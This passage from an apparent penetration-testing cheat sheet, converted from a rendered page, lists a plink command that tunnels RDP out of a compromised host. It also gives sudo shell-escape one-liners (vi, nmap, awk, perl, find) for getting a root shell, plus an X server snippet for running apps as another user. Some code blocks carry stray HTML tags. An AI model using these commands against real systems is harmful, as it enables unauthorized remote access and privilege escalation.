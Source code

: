 <span id="anchor-93"></span>RDP Via Plink Tunnel
([*https://www.chiark.greenend.org.uk/\~sgtatham/putty/latest.html*](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html))

From Remote/Compromised Host

```
plink.exe &lt;user&gt;@&lt;ip or domain&gt; -pw &lt;password&gt; -P 22 -2 -4 -T -N -C -R 0.0.0.0:12345:127.0.0.1:3389
```

<span id="anchor-94"></span>Shell Escapes (Linux w/sudo)

<span id="anchor-95"></span>vi(m)

```
:!sh
```

```
:set shell=/bin/bash:shell
```

<span id="anchor-96"></span>nmap --interactive

```
!sh
```

<span id="anchor-97"></span>awk

```
awk 'BEGIN {system(\\"/bin/bash\\")}'
```

<span id="anchor-98"></span>perl

```
perl -e 'exec \\"/bin/bash\\";'
```

<span id="anchor-99"></span>find

```
find / -exec /usr/bin/awk 'BEGIN {system(\\"/bin/bash\\")}' \\\\;
```

<span id="anchor-100"></span>X Server Hacks

<span id="anchor-101"></span>How to Run An Application As An
Unprivileged User (i.e. WireShark)

This script will allow you to run an application as an unprivileged user

```
#!/bin/bash
# Add the user to the X windows privilege list
xhost +SI:localuser:<strong>&lt;username&gt;</strong>
# Run the desired X app as the specified user
sudo -u<strong> &lt;username&gt; &lt;command and args&gt;</strong></p></td>
```

<span id="anchor-102"></span>Kali Hacks
